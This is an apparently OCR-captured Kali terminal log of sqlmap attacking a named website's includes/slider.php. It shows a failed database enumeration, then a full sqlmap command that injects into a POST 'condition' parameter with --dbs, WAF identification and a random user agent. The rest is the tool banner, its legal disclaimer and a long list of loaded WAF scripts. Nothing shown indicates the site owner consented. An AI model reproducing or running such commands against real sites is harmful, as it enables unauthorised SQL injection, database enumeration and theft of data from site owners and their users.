 [16:27:50] [ERROR] unable to retrieve the number of databases
[16:27:50] [INFO] falling back to current database
[16:27:50] [INFO] fetching current database
[16:27:50] [INFO] retrieved: 
[16:27:51] [CRITICAL] unable to retrieve the database names

[*] shutting down at 16:27:51

root@kali:~# sqlmap --url "https://www.qaisare.com/includes/slider.php" --data "limit=13&start=0&condition=ORDER+BY+%60date_of_post%60+DESC+LIMIT"  --dbs --no-cast --threads 1 --identify-waf --random-agent -v 3
        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.2.10#stable}
|_ -| . [']     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 16:28:30

[16:28:30] [DEBUG] cleaning up configuration parameters
[16:28:30] [DEBUG] loading WAF script 'cloudbric'
[16:28:30] [DEBUG] loading WAF script 'uspses'
[16:28:30] [DEBUG] loading WAF script 'aws'
[16:28:30] [DEBUG] loading WAF script 'comodo'
[16:28:30] [DEBUG] loading WAF script 'asm'
[16:28:30] [DEBUG] loading WAF script 'profense'
[16:28:30] [DEBUG] loading WAF script 'dotdefender'
[16:28:30] [DEBUG] loading WAF script 'zenedge'
[16:28:30] [DEBUG] loading WAF script 'sophos'
[16:28:30] [DEBUG] loading WAF script 'yundun'
[16:28:30] [DEBUG] loading WAF script 'bigip'
[16:28:30] [DEBUG] loading WAF script 'incapsula'
[16:28:30] [DEBUG] loading WAF script 'proventia'
[16:28:30] [DEBUG] loading WAF script 'wallarm'
[16:28:30] [DEBUG] loading WAF script 'isaserver'
[16:28:30] [DEBUG] loading WAF script 'urlscan'
[16:28:30] [DEBUG] loading WAF script 'yunsuo'
[16:28:30] [DEBUG] loading WAF script 'crawlprotect'
[16:28:30] [DEBUG] loading WAF script 'safe3'
[16:28:30] [DEBUG] loading WAF script 'expressionengine'
[16:28:30] [DEBUG] loading WAF script 'webknight'
[16:28:30] [DEBUG] loading WAF script 'radware'
[16:28:30] [DEBUG] loading WAF script '360'
[16:28:30] [DEBUG] loading WAF script 'newdefend'
[16:28:30] [DEBUG] loading WAF script 'webappsecure'
[16:28:30] [DEBUG] loading WAF script 'barracuda'
[16:28:30] [DEBUG] loading WAF script 'teros'
[16:28:30] [DEBUG] loading WAF script 'varnish'
[16:28:30] [DEBUG] loading WAF script 'requestvalidationmode'
[16:28:30] [DEBUG] loading WAF script 'tencent'
[16:28:30] [DEBUG] loading WAF script 'binarysec'
[16:28:30] [DEBUG] loading WAF script 'watchguard'
[16:28:30] [DEBUG] loading WAF script 'cloudfront'
[16:28:30] [DEBUG] loading WAF script 'knownsec'
[16:28:30] [DEBUG] loading WAF script 'jiasule'
[16:28:30] [DEBUG] loading WAF script 'blockdos'
[16:28:30] [DEBUG] loading WAF script 'datapower'
[16:28:30] [DEBUG] loading WAF script 'wordfence'